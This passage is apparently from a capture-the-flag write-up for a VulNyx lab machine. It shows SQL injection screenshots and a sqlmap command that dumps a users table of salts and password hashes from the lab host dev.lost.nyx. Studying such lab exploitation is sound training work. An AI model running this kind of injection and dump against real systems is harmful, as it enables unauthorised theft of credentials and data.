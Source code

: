 
**SQL Injection**

![Firefox - SQL Inection Attempt 1](./assets/screenshots/vulnyx_lost_firefox_sqli_attempt_1.png)

![Firefox - SQL Inection Attempt 2](./assets/screenshots/vulnyx_lost_firefox_sqli_attempt_2.png)

```
┌──(nabla㉿kali)-[~]
└─$ sqlmap 'http://dev.lost.nyx/passengers.php?id=1*' --batch --dump --no-cast

[SNIP]

Database: lost
Table: users
[10 entries]
+----+--------------------------------------+------------------------------------------------------------------+----------+
| id | salt                                 | password                                                         | username |
+----+--------------------------------------+------------------------------------------------------------------+----------+
| 1  | 21dcd7a1-cc0f-11ee-88ad-c6d3ce8f613a | 11389898872781d162347916c42ce996eddd106227a55ed820d9b2d8779afeb8 | jack     |
| 2  | 21dcda3d-cc0f-11ee-88ad-c6d3ce8f613a | c31a0329a22c74f36895d20c602fc9235277bc5cf3eb340b3c83f06a5f9e3ec2 | sawyer   |
| 3  | 21dcdaa1-cc0f-11ee-88ad-c6d3ce8f613a | f5adc6bb3ca2f643ab480189f9be95fdbb388f91a72efbe00bf15e9acbce12a5 | hugo     |
| 4  | 21dcdab9-cc0f-11ee-88ad-c6d3ce8f613a | 15e00c30344346cc2eaf8db69a26b52725f66cf679d89e5bbc550fa2daa3daa0 | kate     |
```